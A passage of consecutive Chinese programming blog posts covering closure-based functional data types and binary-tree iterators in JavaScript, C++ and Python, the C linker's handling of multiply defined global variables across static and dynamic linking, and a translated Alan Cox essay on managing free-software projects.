下面，我们还会看到的是不仅类型的内部实现可以变化，而且可以根本没有什么所谓的内部实现。这是什么意思呢？让我们来思考一下，是不是Pair内部一定要有什么东西来保存构造函数传入的left和right？我们能跳出这个定势吗？在函数式编程中，我们能做到：

[javascript]
//Javascript
function make_pair(x, y) {
// 返回一个支持get_left和get_right操作的闭包(Closure)
return {
get_left : function() { return x },
get_right : function() { return y }
}
}
function get_left(pair) {
return pair.get_left();
}
function get_right(pair) {
return pair.get_right();
}
// Test case
console.log(get_left(make_pair(1, 2))) //1
console.log(get_right(make_pair(1, 2))) //2
[/javascript]

上面的关键代码在于make_pair的内部返回的不是一种具体的数据结构，而是一个支持get_left和get_right操作的闭包(Closure)，将来可以通过get_left和get_right来提取x, y。这种基于闭包的实现和我们通常采用的基于数据结构的实现的本质区别在哪里呢？不难发现，**基于闭包的实现和类型规范是直接对应的**，它并没有引入类型规范之外的东西，而基于数据结构的实现则隐藏了实现的细节。换句话说，如果要验证实现代码的正确性，对于前者只需要比对着类型规范，对于后者我们可能需要去仔细理解推敲其所采用的数据结构。对于Pair这样简单的结构二者差别不大，甚至基于数据结构的实现更简单，但是对于复杂的类型就容易体现出闭包实现的优势了。为了加深理解，我们再来看一个Stack的函数式实现：

[javascript]
//Javascript
function make_stack() {
return null
}
function push(stack, x) {
return {
top : function() { return x },
pop : function() { return stack }
}
}
function top(stack) {
return stack.top()
}
function pop(stack) {
return stack.pop()
}
// Test case
var stack = make_stack()
stack = push(stack, 1)
stack = push(stack, 2)
stack = push(stack, 3)
console.log(top(stack)) //3
stack = pop(stack)
console.log(top(stack)) //2
stack = push(stack, 4)
console.log(top(stack)) //4
[/javascript]

上面的所有函数都是采用了无副作用的纯函数式设计，可能习惯面向对象编程的朋友不是很习惯，不过这不影响我们对类型的讨论，而且它也很容易改造成面向对象的风格，感兴趣的朋友可以自己尝试对上面的代码进行简单的包装让它看起来像面向对象的样子。

#### 函数式二叉树迭代器

上面我们介绍了类型的本质和函数式实现，下面我们再来看看Iterator类型又该如何定义和实现呢？ 思路当然还是从操作入手，考虑Iterator类型对应了哪些操作，它们的关系是什么？上面九瓜提示了Iterator类型可以抽象为线性表List类型，或者说Iterator本质上是一个List。为什么呢？其实，只要跳出“如何表示数据结构”的思维，从类型角度思考就很容易理解，因为Iterator和List都定义了相同的操作，Iterator的使用者完全不关心也不知道它背后到底是链表还是二叉树，你对Iterator的操作和一个List的操作完全一样。正是这个原因，STL等范型库才能通过Iterator将算法和数据结构解耦。

怎么定义一个List类型呢？九瓜提到的empty(), singleton()和append()实际上就是和List打交道最多的Lisp语言的经典定义方式。Lisp是基于s-expression的，s-expression既可以视为线性表又可以视为树，本质上Lisp为List类型了构造、取首元素和取剩余元素等几种操作：

```
Type List:
    Operations:
        List empty()  //构造空表，通常由()这个文字量表示
        List singleton(Element e)  //构造包含一个元素的表，通常由(e)这个文字量表示
        Element first(List list)   //取list的第一个元素，通常又叫car操作
        List rest(List list)  //取list除第一个元素外的剩余部分，通常又叫cdr操作
        List append(List list1, List list2) //连接两个表
    Invariants:
        append(empty(), list) == list  //空表和表list连接后等于表list
        append(list, empty()) == list  //空表和表list连接后等于表list
        first(singleton(e)) == e  //对singleton(e)取首元素等于e
        rest(singleton(e)) == empty()  //对singleton(e)取首元素外的剩余部分的结果为空表
        append(first(list), rest(list)) == list  //对list的首尾两部分进行连接等于list本身
        if list1 is not empty then
            first(append(list1, list2)) == first(list1)  //对非空表list1于表list2的连接取首元素等于对非空表list1取首元素
        if list1 is not empty then
            rest(append(list1, list2)) == append(rest(list1), list2)  //对非空表list1于表list2的连接取首元素等于对非空表list1取首元素
```

有了上面的分析，我们相应地写出下面的List实现：

[javascript]
//Javascript
function empty() {
return null
}
function singleton(e) {
return {
first: function() { return e },
rest: function() { return null }
}
}
function first(list) {
return list.first()
}
function rest(list) {
return list.rest()
}
function append(list1, list2) {
if (null == list1) return list2
if (null == list2) return list1

return {
first : function() { return first(list1) },
rest : function() { return append(rest(list1), list2) }
}
}
[/javascript]

在此基础上可以进一步实现二叉树迭代器：

[javascript]
function make_binary_tree_iterator(node) {
return {
first : function() {
return null != node.left ? first(make_binary_tree_iterator(node.left)) : node
},
rest : function() {
var left_it = (null == node.left ? null : make_binary_tree_iterator(node.left))
var root_it = singleton(node)
var right_it = (null == node.right ? null : make_binary_tree_iterator(node.right))
var it = append(append(left_it, root_it), right_it)
return rest(it)
}
}
}
//======== Test case ========
var tree = {
value : 1,
left : {
value : 2,
left : { value : 4, left : null, right : null },
right : null
},
right : {
value : 3,
left : null,
right : { value : 7, left : null, right : null }
}
}
for (var it = make_binary_tree_iterator(tree); null != it; it = rest(it)) {
console.log(first(it).value)
}
[/javascript]

上面的make_binary_tree_iterator在List类型的基础上按照二叉树遍历过程构造了一个List。不知道你是否注意到了，为什么它不像下面这个例子一样直接返回一个List，而要构造一个闭包呢？

[javascript]
function make_binary_tree_iterator(node) {
var left_it = (null == node.left ? null : make_binary_tree_iterator(node.left))
var root_it = singleton(node)
var right_it = (null == node.right ? null : make_binary_tree_iterator(node.right))
return append(append(left_it, root_it), right_it)
}
[/javascript]

这里关键的区别在于闭包是惰性求值的，也就是说只有当真正开始迭代遍历的时候才会逐渐对各个函数进行求值，而上面的函数递归调用是非惰性的，会从一开始就把所有结点展开成线性表。如果你对这一点还不能很好地理解，可以尝试在各个函数中加log跟踪函数的调用过程。

#### 总结

本文介绍了类型的本质在于它所定义的操作以及操作之间的关系和不变式。类型的实现关键在于满足类型规范的要求，而具体实现是可以变化的，使用者和测试用例都应该只依赖于类型规范而不依赖于具体实现。函数式的类型实现往往和类型规范是直接对应的，简单通用，但可能有性能问题，而命令式的类型实现往往会引入复杂的内部数据结构，但是其优点是高效。这两种实现并不是完全互斥的，有时候可以将二者相结合达到简单与高效的结合。

# C语言全局变量那些事儿

#####  [2013年07月21日 ](https://coolshell.cn/articles/10115.html) [Leo](https://coolshell.cn/articles/author/full_of_bull) 评论 [92 条评论](https://coolshell.cn/articles/10115.html#comments) 77,431 人阅读

**（感谢网友** [**@我的上铺叫路遥**](http://weibo.com/fullofbull) **投稿）**

作为一名程序员，如果说沉迷一门编程语言算作一种乐趣的话，那么与此同时反过来去黑一门编程语言就是这种乐趣的升华。今天我们就来黑一把C语言，好好展示一下这门经典语言令人抓狂的一面。

我们知道，全局变量是C语言语法和语义中一个很重要的知识点，首先它的存在意义需要从三个不同角度去理解：对于程序员来说，它是一个记录内容的**变量(variable)**；对于编译/链接器来说，它是一个需要解析的**符号(symbol)**；对于计算机来说，它可能是具有地址的一块**内存(memory)**。其次是语法/语义：从作用域上看，带static关键字的全局变量范围只能限定在文件里，否则会外联到整个模块和项目中；从生存期来看，它是静态的，贯穿整个程序或模块运行期间（**注意，正是跨单元访问和持续生存周期这两个特点使得全局变量往往成为一段受攻击代码的突破口，了解这一点十分重要**）；从空间分配上看，定义且初始化的全局变量在编译时在数据段(.data)分配空间，定义但未初始化的全局变量**暂存(tentative definition)**在.bss段，编译时自动清零，而仅仅是声明的全局变量只能算个符号，寄存在编译器的符号表内，不会分配空间，直到链接或者运行时再重定向到相应的地址上。

我们将向您展现一下，**非static限定全局变量**在编译/链接以及程序运行时会发生哪些有趣的事情，顺便可以对C编译器/链接器的解析原理管中窥豹。以下示例对ANSI C和GNU C标准都有效，笔者的编译环境是Ubuntu下的GCC-4.4.3。


目录


[第一个例子](https://coolshell.cn/articles/10115.html#第一个例子)[第二个例子](https://coolshell.cn/articles/10115.html#第二个例子)[第三个例子](https://coolshell.cn/articles/10115.html#第三个例子)[第四个例子](https://coolshell.cn/articles/10115.html#第四个例子)

#### 第一个例子

```
/* t.h */
#ifndef _H_
#define _H_
int a;
#endif

/* foo.c */
#include <stdio.h>
#include "t.h"

struct {
   char a;
   int b;
} b = { 2, 4 };

int main();

void foo()
{
    printf("foo:\t(&a)=0x%08x\n\t(&b)=0x%08x\n
        \tsizeof(b)=%d\n\tb.a=%d\n\tb.b=%d\n\tmain:0x%08x\n",
        &a, &b, sizeof b, b.a, b.b, main);
}

/* main.c */
#include <stdio.h>
#include "t.h"

int b;
int c;

int main()
{
    foo();
    printf("main:\t(&a)=0x%08x\n\t(&b)=0x%08x\n
        \t(&c)=0x%08x\n\tsize(b)=%d\n\tb=%d\n\tc=%d\n",
        &a, &b, &c, sizeof b, b, c);
	return 0;
}
```

Makefile如下：

```
test: main.o foo.o
	gcc -o test main.o foo.o

main.o: main.c
foo.o: foo.c

clean:
	rm *.o test
```

运行情况：

```
foo:	(&a)=0x0804a024
	(&b)=0x0804a014
	sizeof(b)=8
	b.a=2
	b.b=4
	main:0x080483e4
main:	(&a)=0x0804a024
	(&b)=0x0804a014
	(&c)=0x0804a028
	size(b)=4
	b=2
	c=0
```

这个项目里我们定义了四个全局变量，t.h头文件定义了一个整型a，main.c里定义了两个整型b和c并且未初始化，foo.c里定义了一个初始化了的结构体，还定义了一个main的函数指针变量。由于C语言每个源文件单独编译，所以t.h分别包含了两次，所以int a就被定义了两次。两个源文件里变量b和函数指针变量main被重复定义了，实际上可以看做代码段的地址。但编译器并未报错，只给出一条警告：

```
/usr/bin/ld: Warning: size of symbol 'b' changed from 4 in main.o to 8 in foo.o
```

运行程序发现，main.c打印中b大小是4个字节，而foo.c是8个字节，因为sizeof关键字是编译时决议，而源文件中对b类型定义不一样。但令人惊奇的是无论是在main.c还是foo.c中，a和b都是相同的地址，也就是说，a和b被定义了两次，b还是不同类型，但内存映像中只有一份拷贝。我们还看到，main.c中b的值居然就是foo.c中结构体第一个成员变量b.a的值，这证实了前面的推断——**即便存在多次定义，内存中只有一份初始化的拷贝。**另外在这里c是置身事外的一个独立变量。

为何会这样呢？这涉及到**C编译器对多重定义的全局符号的解析和链接。**在编译阶段，编译器将全局符号信息隐含地编码在可重定位目标文件的符号表里。这里有个**“强符号(strong)”**和**“弱符号(weak)”**的概念——前者指的是定义并且初始化了的变量，比如foo.c里的结构体b，后者指的是未定义或者定义但未初始化的变量，比如main.c里的整型b和c，还有两个源文件都包含头文件里的a。当符号被多重定义时，GNU链接器(ld)使用以下规则决议：

- 不允许出现多个相同强符号。

- 如果有一个强符号和多个弱符号，则选择强符号。

- 如果有多个弱符号，那么先决议到size最大的那个，如果同样大小，则按照链接顺序选择第一个。

像上面这个例子中，全局变量a和b存在重复定义。如果我们将main.c中的b初始化赋值，那么就存在两个强符号而违反了规则一，编译器报错。如果满足规则二，则仅仅提出警告，实际运行时决议的是foo.c中的强符号。而变量a都是弱符号，所以只选择一个（按照目标文件链接时的顺序）。

事实上，这种规则是C语言里的一个大坑，编译器对这种全局变量多重定义的“纵容”很可能会无端修改某个变量，导致程序不确定行为。如果你还没有意识到事态严重性，我再举个例子。

#### 第二个例子

```
/* foo.c */
#include <stdio.h>;

struct {
    int a;
    int b;
} b = { 2, 4 };

int main();

void foo()
{
    printf("foo:\t(&b)=0x%08x\n\tsizeof(b)=%d\n
        \tb.a=%d\n\tb.b=%d\n\tmain:0x%08x\n",
        &b, sizeof b, b.a, b.b, main);
}

/* main.c */
#include <stdio.h>

int b;
int c;

int main()
{
    if (0 == fork()) {
        sleep(1);
        b = 1;
        printf("child:\tsleep(1)\n\t(&b):0x%08x\n
            \t(&c)=0x%08x\n\tsizeof(b)=%d\n\tset b=%d\n\tc=%d\n",
            &b, &c, sizeof b, b, c);
        foo();
    } else {
        foo();
        printf("parent:\t(&b)=0x%08x\n\t(&c)=0x%08x\n
            \tsizeof(b)=%d\n\tb=%d\n\tc=%d\n\twait child...\n",
            &b, &c, sizeof b, b, c);
        wait(-1);
        printf("parent:\tchild over\n\t(&b)=0x%08x\n
            \t(&c)=0x%08x\n\tsizeof(b)=%d\n\tb=%d\n\tc=%d\n",
            &b, &c, sizeof b, b, c);
    }
    return 0;
}
```

运行情况如下：

```
foo:	(&b)=0x0804a020
	sizeof(b)=8
	b.a=2
	b.b=4
	main:0x080484c8
parent:	(&b)=0x0804a020
	(&c)=0x0804a034
	sizeof(b)=4
	b=2
	c=0
	wait child...
child:	sleep(1)
	(&b):0x0804a020
	(&c)=0x0804a034
	sizeof(b)=4
	set b=1
	c=0
foo:	(&b)=0x0804a020
	sizeof(b)=8
	b.a=1
	b.b=4
	main:0x080484c8
parent:	child over
	(&b)=0x0804a020
	(&c)=0x0804a034
	sizeof(b)=4
	b=2
	c=0
```

（说明一点，运行情况是直接输出到stdout的打印，笔者曾经将./test输出重定向到log中，结果发现打印的执行序列不一致，所以采用默认输出。）

这是一个**多进程环境**，首先我们看到无论父进程还是子进程，main.c还是foo.c，全局变量b和c的地址仍然是一致的（当然只是个**逻辑地址**），而且对b的大小不同模块仍然有不同的决议。这里值得注意的是，我们在子进程中对变量b进行赋值动作，从此子进程本身包括foo()调用中，整型b以及结构体成员b.a的值都是1，而父进程中整型b和结构体成员b.a的值仍是2，但它们显示的逻辑地址仍是一致的。

个人认为可以这样解释，fork创建新进程时，子进程获得了父进程上下文“镜像”（自然包括全局变量），虚拟地址相同但属于不同的进程空间，而且此时真正映射的物理地址中只有一份拷贝，所以b的值是相同的（都是2）。随后子进程对b改写，触发了操作系统的**写时拷贝(copy on write)**机制，这时物理内存中才产生真正的两份拷贝，分别映射到不同进程空间的虚拟地址上，但虚拟地址的值本身仍然不变，这对于应用程序来说是透明的，具有隐瞒性。

还有一点值得注意，这个示例编译时没有出现第一个示例的警告，即对变量b的sizeof决议，笔者也不知道为什么，或许是GCC的一个bug？

#### 第三个例子

这个例子代码同上一个一致，只不过我们将foo.c做成一个静态链接库libfoo.a进行链接，这里只给出Makefile的改动。

```
test: main.o foo.o
	ar rcs libfoo.a foo.o
	gcc -static -o test main.o libfoo.a

main.o: main.c
foo.o: foo.c

clean:
	rm -f *.o test
```

运行情况如下：

```
foo:	(&b)=0x080ca008
	sizeof(b)=8
	b.a=2
	b.b=4
	main:0x08048250
parent:	(&b)=0x080ca008
	(&c)=0x080cc084
	sizeof(b)=4
	b=2
	c=0
	wait child...
child:	sleep(1)
	(&b):0x080ca008
	(&c)=0x080cc084
	sizeof(b)=4
	set b=1
	c=0
foo:	(&b)=0x080ca008
	sizeof(b)=8
	b.a=1
	b.b=4
	main:0x08048250
parent:	child over
	(&b)=0x080ca008
	(&c)=0x080cc084
	sizeof(b)=4
	b=2
	c=0
```

从这个例子看不出有啥差别，只不过使用**静态链接**后，全局变量加载的地址有所改变，b和c的地址之间似乎相隔更远了些。不过这次编译器倒是给出了变量b的sizeof决议警告。

到此为止，有些人可能会对上面的例子嗤之以鼻，觉得这不过是列举了C语言的某些特性而已，算不上黑。有些人认为既然如此，对于一切全局变量要么用static限死，要么定义同时初始化，杜绝弱符号，以便在编译时报错检测出来。只要小心地使用，C语言还是很完美的嘛~对于抱这样想法的人，我只想说，请你在夜深人静的时候竖起耳朵仔细聆听，你很可能听到Dennis Richie在九泉之下邪恶的笑声——不，与其说是嘲笑，不如说是诅咒……

#### 第四个例子

```
/* foo.c */
#include <stdio.h>

const struct {
    int a;
    int b;
} b = { 3, 3 };

int main();

void foo()
{
    b.a = 4;
    b.b = 4;
    printf("foo:\t(&b)=0x%08x\n\tsizeof(b)=%d\n
        \tb.a=%d\n\tb.b=%d\n\tmain:0x%08x\n",
        &b, sizeof b, b.a, b.b, main);
}

/* t1.c */
#include <stdio.h>

int b = 1;
int c = 1;

int main()
{
    int count = 5;
    while (count-- > 0) {
        t2();
        foo();
        printf("t1:\t(&b)=0x%08x\n\t(&c)=0x%08x\n
            \tsizeof(b)=%d\n\tb=%d\n\tc=%d\n",
            &b, &c, sizeof b, b, c);
        sleep(1);
    }
    return 0;
}

/* t2.c */
#include <stdio.h>

int b;
int c;

int t2()
{
    printf("t2:\t(&b)=0x%08x\n\t(&c)=0x%08x\n
        \tsizeof(b)=%d\n\tb=%d\n\tc=%d\n",
        &b, &c, sizeof b, b, c);
    return 0;
}
```

Makefile脚本：

```
export LD_LIBRARY_PATH:=.

all: test
	./test

test: t1.o t2.o
	gcc -shared -fPIC -o libfoo.so foo.c
	gcc -o test t1.o t2.o -L. -lfoo

t1.o: t1.c
t2.o: t2.c

.PHONY:clean
clean:
	rm -f *.o *.so test*
```

执行结果：

```
./test
t2:	(&b)=0x0804a01c
	(&c)=0x0804a020
	sizeof(b)=4
	b=1
	c=1
foo:	(&b)=0x0804a01c
	sizeof(b)=8
	b.a=4
	b.b=4
	main:0x08048564
t1:	(&b)=0x0804a01c
	(&c)=0x0804a020
	sizeof(b)=4
	b=4
	c=4
t2:	(&b)=0x0804a01c
	(&c)=0x0804a020
	sizeof(b)=4
	b=4
	c=4
foo:	(&b)=0x0804a01c
	sizeof(b)=8
	b.a=4
	b.b=4
	main:0x08048564
t1:	(&b)=0x0804a01c
	(&c)=0x0804a020
	sizeof(b)=4
	b=4
	c=4
	...
```

其实前面几个例子只是开胃小菜而已，真正的大坑终于出现了！而且这次编译器既没报错也没警告，但我们确实眼睁睁地看到作为main()中强符号的b被改写了，而且一旁的c也“躺枪”了。眼尖的读者发现，这次foo.c是作为动态链接库运行时加载的，当t1第一次调用t2时，libfoo.so还未加载，一旦调用了foo函数，b立马中弹，而且**c的地址居然还相邻着b，这使得c一同中弹了。**不过笔者有些无法解释这种行为的原因，有种说法是强符号的全局变量在数据段中是连续分布的（相应地弱符号暂存在.bss段或者符号表里），或许可以上报GNU的编译器开发小组。

另外笔者尝试过将t1.c中的b和c定义前面加上**const限定词**，编译器仍然默认通过，但程序在main()中第一次调用foo()时触发了Segment fault异常导致奔溃，在foo.c里使用指针改写它也一样。**推断这是GCC对const常量所在地址启用了类似操作系统写保护机制，但我无法确定早期版本的GCC是否会让这个const常量被改写而程序不会奔溃。**

至于**volatile关键词**之于全局变量，自测似乎没有影响。

怎么样？看了最后一个例子是否有点“不明觉厉”呢？C语言在你心目中是否还是当初那个“纯洁”、“干净”、“行为一致”的姑娘呢？也许趁着你不注意的时候她会偷偷给你戴顶绿帽，这一切都是通过全局变量，特别在动态链接的环境下，就算全部定义成强符号仍然无法为编译器所察觉。而一些IT界“恐怖分子”也经常**将恶意代码包装成全局变量注入到root权限下存在漏洞的操作序列中，**就像著名的栈溢出攻击那样。某一天当你傻傻地看着一个程序出现未定义的行为却无法定位原因的时候，请不要忘记Richie大爷那来自九泉之下最深沉的“问候”~

或许有些人会偷换概念，把这一切归咎于编译器和链接器身上，认为这同语言无关，但我要提醒你，正是编译/链接器的行为支撑了整个语言的语法和语义。你可以反过来思考一下为何C的胞弟C++推出**“命名空间(namespace)”**的概念，或者你可以使用其它高级语言，对于重定义的全局变量是否能通过编译这一关。

所以请时刻谨记，**C是一门很恐怖的语言！**

P.S.题外话写在最后。我无意挑起语言之争，只是就事论事地去**“黑(hack)****”**一门语言而已，而且要黑就要黑得有理有力有层次，还要带点娱乐精神。其实黑一门语言并非什么尖端复杂的技术，个人觉得起码要做到两点：

- **亲自动手写测试程序。**动手写测试程序是开发人员必备的基础技能，只有现成的代码才能让人心服口服，那些只会停留在口头上的争论只能算作cheap hack。

- **测试程序不能依赖于不成熟的代码。**软件开发99%以上的bug都是基于不合格(substandard)开发人员导致，这并不能怪罪于语言以及编译器本身。使用诸如#define TRUE FALSE或者#define NULL 1之类的trick来黑C语言只能证明此人很有娱乐精神而不是真正的”hack value”，拿老北京梨园行当里的一句话——“那是下三滥的玩意儿”。

（全文完）

# 二叉树迭代器算法

#####  [2013年07月14日 ](https://coolshell.cn/articles/9886.html) [Todd](https://coolshell.cn/articles/author/todd) 评论 [54 条评论](https://coolshell.cn/articles/9886.html#comments) 41,716 人阅读

**（感谢** [@文艺复兴记](http://weibo.com/weidagang)**（todd） 投递此文）**

二叉树(Binary Tree)的前序、中序和后续遍历是算法和数据结构中的基本问题，基于递归的二叉树遍历算法更是递归的经典应用。

假设二叉树结点定义如下：

```
// C++
struct Node {
    int value;
    Node *left;
    Node *right;
}
```

中序递归遍历算法：

```
// C++
void inorder_traverse(Node *node) {
    if (NULL != node->left) {
        inorder_traverse(node->left);
    }
    do_something(node);
    if (NULL != node->right) {
        inorder_traverse(node->right);
    }
}
```

前序和后序遍历算法类似。

但是，仅有遍历算法是不够的，在许多应用中，我们还需要对遍历本身进行抽象。假如有一个求和的函数sum，我们希望它能应用于链表，数组，二叉树等等不同的数据结构。这时，我们可以抽象出迭代器(Iterator)的概念，通过**迭代器把算法和数据结构解耦了**，使得通用算法能应用于不同类型的数据结构。我们可以把sum函数定义为：


```
int sum(Iterator it)
```

链表作为一种线性结构，它的迭代器实现非常简单和直观，而二叉树的迭代器实现则不那么容易，我们不能直接将递归遍历转换为迭代器。究其原因，这是因为二叉树递归遍历过程是编译器在调用栈上自动进行的，程序员对这个过程缺乏足够的控制。既然如此，那么我们如果可以自己来控制整个调用栈的进栈和出栈不是就达到控制的目的了吗？我们先来看看二叉树遍历的非递归算法：

```
// C++
void inorder_traverse_nonrecursive(Node *node) {
    Stack stack;
    do {
        // node代表当前准备处理的子树，层层向下把左孩子压栈，对应递归算法的左子树递归
        while (NULL != node) {
            stack.push(node);
            node = node->left;
        }
        do {
            Node *top = stack.top();
            stack.pop(); //弹出栈顶，对应递归算法的函数返回
            do_something(top);
            if (NULL != top->right) {
                node = top->right; //将当前子树置为刚刚遍历过的结点的右孩子，对应递归算法的右子树递归
                break;
            }
        }
        while (!stack.empty());
    }
    while (!stack.empty());
}
```

通过基于栈的非递归算法我们获得了对于遍历过程的控制，下面我们考虑如何将其封装为迭代器呢？ 这里关键在于理解遍历的过程是由栈的状态来表示的，所以显然迭代器内部应该包含一个栈结构，每次迭代的过程就是对栈的操作。假设迭代器的接口为：

```
// C++
class Iterator {
    public:
        virtual Node* next() = 0;
};
```

下面是一个二叉树中序遍历迭代器的实现：

```
//C++
class InorderIterator : public Iterator {
    public:
        InorderIterator(Node *node) {
            Node *current = node;
            while (NULL != current) {
                mStack.push(current);
                current = current->left;
            }
        }
        virtual Node* next() {
            if (mStack.empty()) {
                return NULL;
            }
            Node *top = mStack.top();
            mStack.pop();
            if (NULL != top->right) {
                Node *current = top->right;
                while (NULL != current) {
                    mStack.push(current);
                    current = current->left;
                }
            }
            return top;
         }
    private:
        std::stack<Node*> mStack;
};
```

下面我们再来考察一下这个迭代器实现的时间和空间复杂度。很显然，由于栈中最多需要保存所有的结点，所以其空间复杂度是O(n)的。那么时间复杂度呢？一次next()调用也最多会进行n次栈操作，而整个遍历过程需要调用n次next()，那么是不是整个迭代器的时间复杂度就是O(n^2)呢？答案是否定的！因为每个结点只会进栈和出栈一次，所以整个迭代过程的时间复杂度依然为O(n)。其实，这和递归遍历的时空复杂度完全一样。

除了上面显式利用栈控制代码执行顺序外，在支持yield语义的语言（C#, Python等)中，还有更为直接的做法。下面基于yield的二叉树中序遍历的Python实现：

```
// Python
def inorder(t):
    if t:
        for x in inorder(t.left):
            yield x
        yield t.label
        for x in inorder(t.right):
            yield x
```

yield与return区别的一种通俗解释是yield返回时系统会保留函数调用的状态，下次该函数被调用时会接着从上次的执行点继续执行，这是一种与栈语义所完全不同的流程控制语义。我们知道Python的解释器是C写的，但是C并不支持yield语义，那么解释器是如何做到对yield的支持的呢？ 有了上面把递归遍历变换为迭代遍历的经验，相信你已经猜到Python解释器一定是对yield代码进行了某种变换。如果你已经能够实现递归变非递归，不妨尝试一下能否写一段编译程序将yield代码变换为非yield代码。

# ALAN COX：大教堂、市集与市议会

#####  [2013年07月08日 ](https://coolshell.cn/articles/9917.html) [Leo](https://coolshell.cn/articles/author/full_of_bull) 评论 [20 条评论](https://coolshell.cn/articles/9917.html#comments) 24,079 人阅读

**（感谢网友** [**@我的上铺叫路遥**](http://weibo.com/fullofbull) **投稿）**

在网上搜到的Cox大叔于1998年在开源社区写的一篇文章，当时很轰动，明眼人一看就知道是针对ESR那篇《大教堂与市集》，从中可见Alan在项目管理风格上乃至个人性格上都与ESR、Linus等人不同之处。顺便说一句，Alan现在出于“家庭原因”已经离开了Linux项目，他曾经评价Linus是[a good developer but a terrible engineer](http://apolyton.net/showthread.php/130212-Linus-Torvalds-is-a-terrible-engineer-Alan-Cox)，甚至在Google+上直接说Linus就是一a*sh**e。不管如何，两位曾经十余年里并肩战斗惺惺相惜的大牛就此分道扬镳还是惹人唏嘘。

言归正传，以下为slashdot收录的英文原文：[Cathedrals, Bazaars and the Town Council](http://news.slashdot.org/story/98/10/13/1423253/featurecathedrals-bazaars-and-the-town-council)。

以下是一些我对市集模式的想法，我认为这值得分享，这种模式会教你如何完全毁掉一个自由软件项目。我还举了一个我称之为“市议会”(Town Council)效应的实例（虽然那些市议员们可不这么认为，注：此处指Linux项目开发者）。

关于软件开发人员，你必须去了解一些情况。首先要了解的是真正优秀的程序员相对来说并不普遍，不仅如此，在很多其它专业领域里“真正的程序员”和一些捣乱的家伙之间的区别要比“伟大”和“普通”之间的区别要大得多，研究表明生产效率上最好的同其余的比重是30:1。

其次，你需要了解的是一大堆妄想型码农(wannabe programmer)总是善于发表意见。其中很多人患上了一种叫做“流行性热词”(buzzword)疾病，或者对他们“非黑即白”(one true path)的思考方式有着特殊的偏执，网上很多讨论都是廉价的。


第三个关于软件项目的事情就是我们所谓的“闲杂人员”(the masses)。他们不是编程人员，而在其它方面有着大量贡献——文档编辑、用户支持，以及对那类经常争论你应该获得许可证才能上网的人的说服工作。

我想以Linux 8086（注，Intel设计的16位处理器架构）为例来说明如何将整个工程全部搞砸。将Linux的一个子集移植到8086上大体是这世上最无聊的活动之一。整件事的发起就像个笑话并走向失控。

只有极少数真正的程序员会将时间及其良好的精神状态（或许那是假的）花费在那些唯一价值在于“黑客精神”(Hack Value)的项目上，故而在任何时候那种项目也就两三个核心贡献人员而已。

不幸的是大批人认为将Linux运行在8086上是干净的，为此义不容辞地想要“入伙”。这类人大多属于妄想型码农之流，以至于连闲杂人员在一个安全距离之外都会沾染上这个项目的“愚蠢”因子。

问题的导火索在于一大批充满（大多善意的）危险的一知半解的人们的意识观念——不是代码，而是意识观念。他们似乎很懂得如何去编程，但很多人连“Hello World”这样的C程序都不会。他们花了几星期时间去争论并投票该使用什么编译器，甚至在项目开展一年后还在争论是否去写个充分完美的编译器。他们热衷于辩论如何生成大量二进制文件，却又对内核swapper（注，即idle task）设计一无所知。

Linux 8086项目仍然进行着，真正的开发人员将邮件列表里许多其他成员加入到清除文件(kill files)中，以便他们之间可以顺畅地通过邮件列表沟通，只因半吊子打酱油的家伙实在太多了。这一切不再是市集模式，而是形成了一个核心小组，对圈子里许多人而言这是一种礼貌用语。在这种情形下人们不可避免地处于被动位置。

像Linux这种基于用户/程序员的项目成长缓慢，虽然它是靠着一群贡献代码的人得以成长起来，但这些人的背景要么是从原始的Minix（注，一种微内核操作系统）黑客社区起家，要么通过艰难的方式不断从头学起。随着项目增长，人们本应该形成一个“Linux内核结构规划管理委员会”，而不是掉入将人们招来唤去，不将失败视为问题的怪圈，用Linus的话来说就是“给我看源码”。

如果有人陷入困境，他可以发帖询问，在这之前包括现在很大程度上都基于人们正常地拥有时间并具备知识来回复他。在Linux 8086的案例中，开发人员很长一段时间身陷囹圄。假使主动活跃的程序员对只有潜在用处的妄想型码农的比例更高一点的话，我们就可以将一些杂音转化成生产力。项目也就获得更多有用的程序员，他们可以轮流向他人传授经验，任何学习活动都会让你变得更好，哪怕只有一些少量实习生。

一些人会认为你无法将那些“次要程序员”(lesser programmer)训练成真正的程序员。就Linux项目的个人经验而言，很多人员只要获得一丁点儿的帮助和自信鼓励都将成为世界上最好的开发人员之一。只要帮助和鼓励足够多，很多人就能成功。

Linux 8086总算大部分从“侵扰”中恢复过来，可至今仍是个不起眼的小项目。你可以从CVS目录树上下载这个由Alistair Riddich领导的项目，他做了很多优秀的工作。随着市议员的撤出，人们可以询问、参与并改善这个项目。

我们从这个项目，还有其它相同命运的早期Linux 16位处理器项目（有的已死）中很清楚地学到以下几点教训。

- 从项目一开始就发布源代码。哪怕不是很有用也无关紧要，将市议会排序分类的最好方式就是发布源代码并告知人们。Linux、KDE以及GNOME都遵循这种方式并获益良多。你可以花一辈子时间去争论怎样写代码才是正确的。只要代码公布，人们（不管水平怎样）都会把玩它。

- 要欣赏那些给一点帮助就会对项目做出巨大贡献的人。如果他们最初的补丁有错误，不要盛气凌人，向其解释问题出在哪里并给出解决方案的建议，或者可以查询解决方法的地方。解答真正的问题，帮助别人，你所花费的一分一秒都会成十倍地回报在项目上，对社会也会带来无法估量的好处。[注]

- 不要忘记那些非开发人员。我难过地发现许多人问起“前5名最重要的内核成员”时却极少涉及在所有人中最重要的一些——他们负责维护网站，更新日志和邮件列表，还有编辑文档，这些都是同等重要。
  Linus那句“给我看源代码”对真正的项目来说是个狭隘的视角。当你听到人们说“我很想帮忙，可我不会编程”，那么他可以从事文档编写。当人们说“但英语不是我的第一语言”，这时你需要的是一位文档编辑或另一门语言翻译者。

- 尝试将有用的人从杂音中分离出来，将有意愿帮忙的人从一大堆无聊评论中分离出来是很难的。在Linux 8086项目中我的确错误地放弃了这一目标，如何将那些只会空谈而又无所事事的人弄走是一门学问。

下次碰到人们在项目上投票，或者问题讨论了一个月才实现这类情况，给予他们警告。这样才能使人正确地解决问题。在你看来如果一些稀奇古怪的事务不顾一切地运行着，要求他们给你发个补丁，只要能够生效的话。

小心地说“我们应该怎样”之类的话，对“我该如何做”这样的人伸出援手。

Alan

[注]这段话举个例子说明一下。Linux IPv6源码作者以前在葡萄牙上网聊天，只会简单讨论和问一些基本问题。我们助其弄明白一些内核原理之后，他写了大约75%的IPv6协议栈代码，他最近受聘于美国思科公司。

附录一：一篇针对本文的[吐槽贴](http://tech.groups.yahoo.com/group/java-os-project/message/2358?var=1&p=1)

